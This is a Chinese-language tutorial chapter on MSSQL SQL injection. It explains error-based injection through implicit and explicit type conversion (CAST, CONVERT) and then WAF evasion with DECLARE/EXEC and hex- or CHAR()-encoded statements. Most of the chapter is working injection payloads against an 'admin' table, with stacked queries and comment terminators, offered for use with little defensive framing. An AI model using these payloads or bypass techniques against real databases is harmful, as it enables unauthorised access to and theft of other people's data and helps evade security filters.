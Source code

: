 
# 第五章 MSSQL注入基本流程

### 0x00 简介

在上一章我们已经了解到了报错注入，其实MSSQL报错注入利用的就是显示或隐式转换来报错注入,比如以下就是典型的隐式转换

```
select * from admin where id =1 and (select user)>0--

select * from admin where id =1|(select user)--

在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。

```

显示转换也就是利用函数来转换，我们经常用到的两个函数就是cast和convert

```
CAST( expression AS data_type )

CONVERT(data_type[(length)], expression [, style])

```

```
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))

```



### 0x01 简单绕过注入

因为在前面一章我已经写过一些简单的报错注入了，所以这里引进一个`declare` 函数，他是mssql声明局部变量的函数，我们经常用它来绕过waf对一些关键词的拦截

```
select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --

```

declare定义变量 set设置变量值 exec执行变量


变量的值是支持hex和ascii码的,当过滤引号我们就可以这么用 把我们的语句编码一下

```
select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--

select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--

```
